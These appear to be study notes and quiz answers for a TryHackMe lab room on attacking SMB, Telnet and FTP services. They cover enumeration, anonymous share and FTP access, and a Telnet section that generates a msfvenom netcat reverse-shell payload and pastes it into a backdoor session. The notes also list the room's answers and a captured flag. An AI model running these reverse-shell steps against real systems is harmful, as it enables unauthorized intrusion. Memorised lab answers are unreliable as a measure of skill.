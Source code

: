 #+TITLE: Network Services

* Get Connected

Hello and welcome!

This room will explore common Network Service vulnerabilities and misconfigurations, but in order to do that, we'll need to do a few things first!

A basic knowledge of Linux, and how to navigate the Linux file system, is required for this room. If you think you'll need some help with this, try completing the 'Linux Fundamentals' Module (https://tryhackme.com/module/linux-fundamentals)

- Connect to the TryHackMe OpenVPN Server (See https://tryhackme.com/access for help!)
- Make sure you're sitting comfortably, and have a cup of Tea, Coffee or Water close!

Now, let's move on!

N.B. This is not a room on WiFi access hacking or hijacking, rather how to gain unauthorized access to a machine by exploiting network services. If you are interested in WiFi hacking, I suggest checking out WiFi Hacking 101 by NinjaJc01 (https://tryhackme.com/room/wifihacking101)

* Understanding SMB

** What is SMB?

SMB - Server Message Block Protocol - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. [source]

Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network. Client computers may have their own hard disks, but they also want access to the shared file systems and printers on the servers.

The SMB protocol is known as a response-request protocol, meaning that it transmits multiple messages between the client and server to establish a connection. Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

** How does SMB work?

|        | --> SMB Requests  |        |
| Client |                   | Server |
|        | <-- SMB responses |        |




Once they have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. However, in the case of SMB, these things are done over the network.

** What runs SMB?

Microsoft Windows operating systems since Windows 95 have included client and server SMB protocol support. Samba, an open source server that supports the SMB protocol, was released for Unix systems.

* Enumerating SMB

Lets Get Started

Before we begin, make sure to deploy the room and give it some time to boot. Please be aware, this can take up to five minutes so be patient!

Enumeration

Enumeration is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.

This process is essential for an attack to be successful, as wasting time with exploits that either don't work or can crash the system can be a waste of energy. Enumeration can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.

SMB

Typically, there are SMB share drives on a server that can be connected to and used to view or transfer files. SMB can often be a great starting point for an attacker looking to discover sensitive information — you'd be surprised what is sometimes included on these shares.


Port Scanning

The first step of enumeration is to conduct a port scan, to find out as much information as you can about the services, applications, structure and operating system of the target machine.

If you haven't already looked at port scanning, I recommend checking out the Nmap room here.

Enum4Linux

Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems. It is basically a wrapper around the tools in the Samba package and makes it easy to quickly extract information from the target pertaining to SMB. It's installed by default on Parrot and Kali, however if you need to install it, you can do so from the official github.

The syntax of Enum4Linux is nice and simple: "enum4linux [options] ip"

TAG            FUNCTION

-U             get userlist
-M             get machine list
-N             get namelist dump (different from -U and-M)
-S             get sharelist
-P             get password policy information
-G             get group and member list

-a             all of the above (full basic enumeration)

Now we understand our enumeration tools, let's get started!

* Exploiting SMB

Types of SMB Exploit

While there are vulnerabilities such as [[https://www.cvedetails.com/cve/CVE-2017-7494/][CVE-2017-7494]] that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system. In this case, we're going to be exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

** Method Breakdown

So, from our enumeration stage, we know:

    - The SMB share location

    - The name of an interesting SMB share

** SMBClient

Because we're trying to access an SMB share, we need a client to access resources on servers. We will be using SMBClient because it's part of the default samba suite. While it is available by default on Kali and Parrot, if you do need to install it, you can find the documentation [[https://www.samba.org/samba/docs/current/man-html/smbclient.1.html][here]].

We can remotely access the SMB share using the syntax:

smbclient //[IP]/[SHARE]

Followed by the tags:

-U [name] : to specify the user

-p [port] : to specify the port

Got it? Okay, let's do this!

** Question

*** Q1
What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?
**** A
smbclient //10.10.10.2/secret -U suit

* Understanding Telnet

** What is Telnet?

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

** Replacement

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.
 
** How does Telnet work?

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: "telnet [ip] [port]"

* Enumerating Telnet

** Lets Get Started

Before we begin, make sure to deploy the room and give it some time to boot. Please be aware, this can take up to five minutes so be patient!

** Enumeration

We've already seen how key enumeration can be in exploiting a misconfigured network service. However, vulnerabilities that could be potentially trivial to exploit don't always jump out at us. For that reason, especially when it comes to enumerating network services, we need to be thorough in our method. 

** Port Scanning

Let's start out the same way we usually do, a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine. Scan the machine with nmap.

** Output

Let's see what's going on on the target server...

** Questions

How many ports are open on the target machine?

    1

What port is this?

    8012

This port is unassigned, but still lists the protocol it’s using, what protocol is this?

    tcp

Now re-run the nmap scan, without the -p- tag, how many ports show up as open?

    0

Based on the title returned to us, what do we think this port could be used for?

    a backdoor

Who could it belong to? Gathering possible usernames is an important step in enumeration.

    SKIDY (nmap -A -p8012 IPADDRESS)

* Exploiting Telnet

** Types of Telnet Exploit

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

    https://www.cvedetails.com/
    https://cve.mitre.org/

A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

** Method Breakdown

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

** Connecting to Telnet

You can connect to a telnet server with the following syntax:

    "telnet [ip] [port]"

We're going to need to keep this in mind as we try and exploit this machine.

** What is a Reverse Shell?

A "shell" can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

** questions



*** Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.
A: NA

*** Great! It's an open telnet connection! What welcome message do we receive?
A: SKIDY'S BACKDOOR

*** Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

*** Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.
A: NA

Start a tcpdump listener on your local machine.

If using your own machine with the OpenVPN connection, use:
#+begin_src bash
    sudo tcpdump ip proto \\icmp -i tun0
#+end_src

If using the AttackBox, use:
#+begin_src bash
    sudo tcpdump ip proto \\icmp -i ens5
#+end_src

*** This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.
A: NA
*** Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

*** Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
A: NA
We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:
#+begin_src bash
"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
#+end_src

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

*** What word does the generated payload start with?
A: mmkfifo


*** Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:
#+begin_src bash
"nc -lvp [listening port]"
#+end_src

What would the command look like for the listening port we selected in our payload?

*** Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

*** Success! What is the contents of flag.txt?
A: THM{y0u_g0t_th3_t3ln3t_fl4g}


* Understanding FTP

What is FTP?

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

How does FTP work?
A typical FTP session operates using two channels:

    a command (sometimes called the control) channel
    a data channel. 

As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.

Active vs Passive

The FTP server may support either Active or Passive connections, or both. 

    In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
    In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.  

This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.

More Details:

You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: https://www.ietf.org/rfc/rfc959.txt. The IETF is one of a number of standards agencies, who define and regulate internet standards. 

* Enumerating FTP

** Lets Get Started

Before we begin, make sure to deploy the room and give it some time to boot. Please be aware, this can take up to five minutes so be patient!

** Enumeration

By now, I don't think I need to explain any further how enumeration is key when attacking network services and protocols. You should, by now, have enough experience with nmap to be able to port scan effectively. If you get stuck using any tool- you can always use "tool [-h / -help / --help]" to find out more about it's function and syntax. Equally, man pages are extremely useful for this purpose. They can be reached using "man [tool]".
Method

We're going to be exploiting an anonymous FTP login, to see what files we can access- and if they contain any information that might allow us to pop a shell on the system. This is a common pathway in CTF challenges, and mimics a real-life careless implementation of FTP servers.

** Resources

As we're going to be logging in to an FTP server, we will need to make sure an FTP client is installed on the system. There should be one installed by default on most Linux operating systems, such as Kali or Parrot OS. You can test if there is one by typing "ftp" into the console. If you're brought to a prompt that says: "ftp>", then you have a working FTP client on your system. If not, it's a simple matter of using "sudo apt install ftp" to install one.
** Alternative Enumeration Methods

It's worth noting  that some vulnerable versions of in.ftpd and some other FTP server variants return different responses to the "cwd" command for home directories which exist and those that don’t. This can be exploited because you can issue cwd commands before authentication, and if there's a home directory- there is more than likely a user account to go with it. While this bug is found mainly within legacy systems, it's worth knowing about, as a way to exploit FTP.

This vulnerability is documented at: https://www.exploit-db.com/exploits/20745 


Now we understand our toolbox, let's do this.   

** Questions

*** How many ports are open on the target machine? 
A: 2

*** What port is ftp running on?
A: 21

*** What variant of FTP is running on it?  
A: vsftpd (sudoi nmap -A [IP ADDRESS])

Great, now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing "ftp [IP]" into the console, and entering "anonymous", and no password when prompted.

*** What is the name of the file in the anonymous FTP directory?
A: PUBLIC_NOTICE.txt

** What do we think a possible username could be?
A: mike
